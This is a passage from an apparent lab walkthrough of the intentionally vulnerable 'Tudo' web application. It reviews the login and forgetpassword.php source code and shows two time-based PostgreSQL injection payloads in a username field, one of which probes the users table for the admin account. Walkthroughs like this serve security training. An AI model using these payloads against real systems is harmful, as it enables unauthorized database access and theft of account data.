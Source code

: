 Just checks to see if you already logged in, if not get the db connection and test it, possibly we can try some kind of sqlinjection here. So we try one simple payload and see that it worked fine!

```
username=0x4rt3mis';select+pg_sleep(3);--
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:11:05.png)

Ok, we can extract data from there, after when I finish the summary code analysis I'll explore this vuln

```
username=0x4rt3mis';SELECT+CASE+WHEN+COUNT((SELECT+username+FROM+users+WHERE+SUBSTR(username,1,5)+SIMILAR+TO+'admin'))<>0+THEN+pg_sleep(5)+ELSE+''+END;+--+-
```

Let's analyse the forget password for now

## forgetpassword.php

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:21:30.png)

```php
<?php
    session_start();
    if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];

        if ($username != 'admin') {
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "checkuser_query", "select * from users where username = $1");
            $ret = pg_execute($db, "checkuser_query", array($_POST['username']));

            if (pg_num_rows($ret) === 1) {
                $row = pg_fetch_row($ret)[0];

                include('includes/utils.php');
                $token = generateToken();

                $ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
                $ret = pg_execute($db, "createtoken_query", array($row, $token));

                $success = true;
            }
            else {
                $error = true;
            }
        }
    }
?>
```
